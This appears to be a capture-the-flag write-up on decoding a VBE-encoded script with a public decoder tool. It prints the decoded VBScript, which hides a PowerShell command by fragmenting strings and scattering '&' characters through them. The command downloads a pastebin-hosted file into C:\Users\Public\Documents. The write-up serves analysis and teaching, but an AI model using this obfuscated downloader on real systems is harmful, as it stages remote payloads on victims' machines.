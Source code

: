 A `VBE` file is a [script](https://techterms.com/definition/script) written in `VBScript`, a programming language that is a reduced version of Visual Basic; stores the source code in an encoded format so that it is not recognizable; run natively in Windows by the Windows Script Host (`wscript.exe` or `cscript.exe`). [Read more](https://fileinfo.com/extension/vbe).

Well the challenge name and description was clear, but anyway we got it. now what? Remember it is some kind of obfuscation on encoding. we need to decode it, right.

We go further and search for a decoder. We get one from the challenge creator's GitHub repository, isn't that cool.

Link: [https://github.com/JohnHammond/vbe-decoder.git](https://github.com/JohnHammond/vbe-decoder.git).

We clone it and run it to see the usage section of it.

![image](/assets/img/Posts/huntress/vbe/vbedecoder.png)

```bash
➜  vbe-decoder git:(master) python3 vbe-decoder.py ../veebeeeee -o ../veebeeee.vbs
[+] success, wrote decoded vbscript to '../veebeeee.vbs'
➜  vbe-decoder git:(master) 
```

We get a `vbs` script, we can go further and open it in sublime text.

```vb
Set Object  = WScript.CreateObject("WScript.Shell") ''''''''''''''''al37ysoeopm'al37ysoeopm
Set SObject = CreateObject("Shell.Application")''''''''''''''''al37ysoeopm'al37ysoeopm
Set FObject = CreateObject("Scripting.FileSystemObject")''''''''''''''''al37ysoeopm'al37ysoeopm
SPath   = WScript.ScriptFullName''''''''''''''''al37ysoeopm'al37ysoeopm
Dim Code''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
Power0 = "Po"''''''''''''''''al37ysoeopm'al37ysoeopm
Power1 = "we"''''''''''''''''al37ysoeopm'al37ysoeopm
Power2 = "rS"''''''''''''''''al37ysoeopm'al37ysoeopm
Power3 = "he"
Power4 = "ll"''''''''''''''''al37ysoeopm'al37ysoeopm
Power5 = " "''''''''''''''''al37ysoeopm'al37ysoeopm
Power = Power0 + Power1 + Power2 + Power3 + Power4 + Power5''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
Path0 = "&$&f&&=&'&&C&"''''''''''''''''al37ysoeopm'al37ysoeopm
Path1 = "&:&\&U&s&e&&rs" ''''''''''''''''al37ysoeopm'al37ysoeopm
Path2 = "&\P&&u&b&l&i&&c&"''''''''''''''''al37ysoeopm'al37ysoeopm
Path3 = "\D&&o&c&u&me" ''''''''''''''''al37ysoeopm'al37ysoeopm
Path4 = "n&ts&\&&J&u&ly"''''''''''''''''al37ysoeopm'al37ysoeopm
Path5 = "&.h&t&&m&';"''''''''''''''''al37ysoeopm'al37ysoeopm
Path   = Path0 + Path1 + Path2 + Path3 + Path4 + Path5''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest0 = "&i&&f &(&!(T&e&st&-P&ath &$&f)&){&&I&n&v&o&ke&-&W&eb&&R&eq&u&&e&s&t '"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest1 = "&h&t&t&p&s&:&/&/&p&a&s&t"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest2 = "&e&b&i&n&.&c&o&m&/&r&a&w"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest3 = "&/&S&i&Y&G&w&w&c&z&"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest4 = "'& &-o&u&"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest5 = "t&f&i&le &$f&  &};"''''''''''''''''al37ysoeopm'al37ysoeopm
```